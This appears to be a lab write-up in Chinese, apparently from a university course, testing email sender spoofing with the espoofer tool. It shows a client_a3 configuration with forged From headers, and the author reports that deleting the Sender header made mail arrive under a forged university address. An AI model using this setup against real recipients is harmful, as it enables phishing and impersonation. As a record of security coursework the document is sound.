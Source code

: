 ![111](./sjtu_to_sjtu.jpg)

分别使用client_a1/client_a2/client_a3发送邮件，都成功地发送，但只有client_a3真正实现伪装（尽管此时还会显示代发人）。

修改client_a3 mode的内容，删除Sender段：

~~~python
"client_a3": {
	"helo": b"espoofer-MacBook-Pro.local",
	"mailfrom": b"<attacker@example.com>",
	"rcptto": b"<victim@victim.com>",
	# "dkim_para": {"d":b"attack.com", "s":b"selector", "sign_header": b"From: <first@legitimate.com>, <second@attack.com>"},
	"data": {
	"from_header": b"From: <admin@example.com>\r\n",
	"to_header": b"To: <victim@victim.com>\r\n",
	"subject_header": b"Subject: client A3: Spoofing via an email service account\r\n",
	"body": b"Hi, this is a test message! Best wishes.\r\n",
	"other_headers": b"Date: " + get_date() + b"\r\n" + b'Content-Type: text/plain; charset="UTF-8"\r\nMIME-Version: 1.0\r\nMessage-ID: <1538085644648.096e3d4e-bc38-4027-b57e-' + id_generator() + b'@message-ids.attack.com>\r\nX-Email-Client: https://github.com/chenjj/espoofer\r\n\r\n',
	},   
	# ---------------------
  # 在此处other_headers中删除"Sender: ... "字段
  # ---------------------
	"description": b"Spoofing via an email service account, refer to section 6.2 in the paper."
},
~~~

能够正常收到邮件，且发件人显示为一个伪造的合法地址canvas.sjtu.edu.cn。

<img src="./2.jpeg" alt="2" style="zoom:50%;" />
